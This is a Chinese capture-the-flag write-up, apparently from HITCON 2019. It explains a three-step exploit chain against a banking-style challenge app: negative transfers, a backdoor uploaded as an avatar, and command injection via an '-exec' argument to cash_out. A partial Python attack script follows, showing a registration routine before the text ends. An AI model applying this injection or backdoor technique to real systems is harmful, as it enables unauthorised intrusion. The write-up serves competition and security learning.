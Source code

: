 因为特别难修，我们前期靠这个脚本长期收割全场。

![1](https://momomoxiaoxi.com/img/post/HITCON2019/1.png)







第二个洞的利用链比较长。

- 攻击者首先通过转账功能，通过负数可以进行转账，将自己的金额提高到1000以上；
- 然后，修改头像处，上传一个文件后门；
- 最后，在进行cash_out处，进行任意命令执行（/cash_out 'a -exec sleep 2 ;' 2）。主要在exec后进行命令执行，不过此时`>`和`|`都不能用。最后的命令执行，还靠wupco师傅发现的，通过cp一个可控的文件，进行命令执行。

之所以需要这么繁琐，主要是因为cash_out处的命令执行操作限制比较大，这一块卡了很久。

攻击脚本：

```bash
# coding:utf-8
from framework.http import http
from framework.config import *
from framework.function import *
from urllib import quote
import traceback
import requests
import re, random, string

session = requests.Session()


def filter_flag(string):
    p = re.compile(r'[0-9a-z\-]{36}')
    # p = re.compile(r'hctf\{.*\}')
    r = p.findall(string)
    return r[0]


def register(ip, username, password, hash_algo='sha1'):
    paramsGet = {"op": "register", "action": "user"}
    paramsPost = {"hash_algo": hash_algo, "password": password, "submit": "Register", "username": username}
    headers = {"Origin": "https://10.0.10.5",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.80 Safari/537.36",
               "Referer": "https://10.0.10.5/?action=user&op=register", "Connection": "close",
               "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post("https://{}/".format(ip), data=paramsPost, params=paramsGet, headers=headers)

    # print("Status code:   %i" % response.status_code)
    # print("Response body: %s" % response.content)
    if 'Register failed' in response.content:
        print('Register failed:{}'.format(username))
        return False
    if 'Register success' in response.content:
        print('Register success:{}'.format(username))
        return True
    print('Register error!{}'.format(username))
    return False


```